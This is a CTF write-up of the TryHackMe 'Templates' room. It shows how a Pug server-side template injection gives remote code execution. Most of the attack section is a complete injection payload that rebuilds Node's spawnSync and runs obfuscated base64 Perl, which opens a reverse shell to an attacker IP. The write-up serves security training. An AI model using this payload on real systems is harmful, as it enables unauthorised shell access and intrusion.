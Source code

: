 # TryHackMe: Templates

> Pug is my favorite templating engine! I made this super slick application so you can play around with Pug and see how it works.


*[](https://tryhackme.com/room/templates)*

## Recon

I got the following machine IP:


```
export IP=10.10.21.247
```

The assigment text tells us to navigate to `http://$IP:5000`. I decided to run an
NMAP scan too anyway: see `nmap.log`. We're given the following app:

![](normal-operation.png)

## Template Injection

Triggering a syntax error reveals the path the app is executing on: `usr/src/app`.
This could be useful on its own, say to read sensitive files.

![](syntax-error.png)

However, inputting the following gains me a complete reverse shell:

```
h1= title
p Welcome to #{3*3}

#{spawn_sync = this.process.binding('spawn_sync')}
#{ normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};}}
#{spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}}
#{payload='dXNlIFNvY2tldDskaT0iMTAuOS45NC45MiI7JHA9OTAwNTtzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI+JlMiKTtleGVjKCIvYmluL3NoIC1pIik7fTsK'}
#{resp=spawnSync('perl',['-e',(new Buffer(payload, 'base64')).toString('ascii')])}
```

Which was inspired by [a gist](https://gist.github.com/Jasemalsadi/2862619f21453e0a6ba2462f9613b49f)
I found using a Google search. The payload itself is base64-encoded perl, and
contains the IP and port to connect to, so had to be changed. 

I used this shell to read the flag:

![](flag.png)


